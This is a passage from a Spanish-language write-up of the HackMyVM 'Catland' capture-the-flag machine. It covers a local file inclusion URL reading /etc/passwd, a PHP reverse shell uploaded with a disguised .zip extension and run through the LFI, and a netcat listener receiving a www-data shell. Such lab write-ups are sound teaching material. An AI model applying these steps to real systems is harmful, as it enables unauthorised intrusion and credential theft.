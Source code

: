 Ahora sí ha funcionado!!

### LFI

Una vez logeado como el usuario Laura, encuentro una vulnerabilidad LFI en la siguiente url.

```
http://admin.catland.hmv/user.php?page=/etc/passwd
```

También encuentro una página en la que se pueden subir únicamente archivos "zip" y "rar" al servidor.

Sabiendo esto, puedo conseguir una reverse shell.

## Explotación

Para conseguir la reverse shell, primero hay que subirla al servidor. En este caso yo he utilizado [esta](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) de **pentestmonkey**, solo que le he cambiado la extensión para poder pasar el filtro.

![img](/imgs/write-ups/hackmyvm/catland/catland_3.png#center)

Una vez subida, utilizo el LFI encontrado anteriormente para leer el archivo y obtener la conexión.

```
http://admin.catland.hmv/user.php?page=uploads/shell.zip
```

```
$ nc -lvnp 1234
Connection from 192.168.1.80:55774
Linux catland.hmv 5.10.0-20-amd64 #1 SMP Debian 5.10.158-2 (2022-12-13) x86_64 GNU/Linux
 21:05:46 up 21 min,  0 users,  load average: 0.04, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

Y ya estoy dentro :)

## Escalado de privilegios

Una vez dentro, en el archivo de configuración "config.php" encuentro credenciales para acceder a la base de datos de catland.
